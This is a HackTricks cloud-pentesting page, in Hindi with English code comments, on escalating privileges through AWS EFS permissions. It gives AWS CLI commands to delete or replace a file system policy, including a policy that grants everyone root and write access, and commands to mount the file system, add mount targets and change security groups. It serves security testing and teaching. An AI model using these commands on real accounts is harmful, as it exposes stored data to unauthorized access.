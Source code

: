 # AWS - EFS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EFS

EFS के बारे में अधिक **जानकारी**:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

याद रखें कि EFS को माउंट करने के लिए आपको उस उपनेटवर्क में होना चाहिए जहां EFS एक्सपोज़ किया गया है और आपके पास इसकी पहुंच हो (सुरक्षा समूह)। यदि ऐसा हो रहा है, तो डिफ़ॉल्ट रूप से, आप हमेशा इसे माउंट कर सकेंगे, हालाँकि, यदि इसे IAM नीतियों द्वारा सुरक्षित किया गया है, तो आपको इसे एक्सेस करने के लिए यहाँ उल्लेखित अतिरिक्त अनुमतियों की आवश्यकता होगी।

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

इनमें से किसी भी अनुमति के साथ, एक हमलावर **फाइल सिस्टम नीति** को **बदल सकता है** ताकि आपको इसकी **पहुँच** मिल सके, या बस इसे **हटाकर** **डिफ़ॉल्ट पहुँच** प्रदान कर सके।

नीति को हटाने के लिए:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
इसे बदलने के लिए:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

इस अनुमति के साथ, एक हमलावर **EFS को माउंट** करने में सक्षम होगा। यदि लिखने की अनुमति डिफ़ॉल्ट रूप से सभी को नहीं दी गई है जो EFS को माउंट कर सकते हैं, तो उसके पास केवल **पढ़ने की अनुमति** होगी।
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
अतिरिक्त अनुमतियाँ `elasticfilesystem:ClientRootAccess` और `elasticfilesystem:ClientWrite` का उपयोग **लेखन** के लिए किया जा सकता है जब यह फ़ाइल सिस्टम माउंट किया गया हो और **रूट** के रूप में उस फ़ाइल सिस्टम **तक पहुँच** प्राप्त करने के लिए।

**संभावित प्रभाव:** फ़ाइल सिस्टम में संवेदनशील जानकारी को खोजकर अप्रत्यक्ष प्रिवेस्क।

### `elasticfilesystem:CreateMountTarget`

यदि आप एक हमलावर हैं जो एक **उपनेटवर्क** के अंदर हैं जहाँ EFS का **कोई माउंट टारगेट** नहीं है। वह बस इस विशेषाधिकार के साथ **अपने उपनेट में एक बना सकता है**:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**संभावित प्रभाव:** फ़ाइल सिस्टम में संवेदनशील जानकारी को खोजकर अप्रत्यक्ष प्रिवेस्क।

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

एक परिदृश्य में जहाँ एक हमलावर पाता है कि EFS का माउंट टारगेट उसके उपनेटवर्क में है लेकिन **कोई सुरक्षा समूह ट्रैफ़िक की अनुमति नहीं दे रहा है**, वह बस **चुनिंदा सुरक्षा समूहों को संशोधित करके उसे बदल सकता है**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**संभावित प्रभाव:** फ़ाइल सिस्टम में संवेदनशील जानकारी को खोजकर अप्रत्यक्ष प्रिवेस्क।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
